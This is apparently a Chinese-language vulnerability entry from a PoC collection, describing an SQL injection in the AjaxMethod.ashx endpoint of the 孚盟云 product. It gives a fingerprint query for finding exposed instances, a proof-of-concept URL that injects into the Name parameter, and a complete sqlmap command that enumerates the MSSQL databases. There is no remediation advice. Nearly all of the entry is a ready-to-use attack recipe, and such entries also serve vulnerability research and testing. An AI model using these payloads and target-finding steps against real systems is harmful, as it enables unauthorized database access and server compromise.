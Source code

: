 # 

# 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
孚盟云
```

## 网络测绘

```
title="孚盟云 "
```

## 漏洞复现

登录页面



![image-20220210184424096](./images/202202101844185.png)



验证POC



```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![image-20220210184439151](./images/202202101844214.png)



使用Sqlmap



```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```



![image-20220210184456424](./images/202202101844599.png)
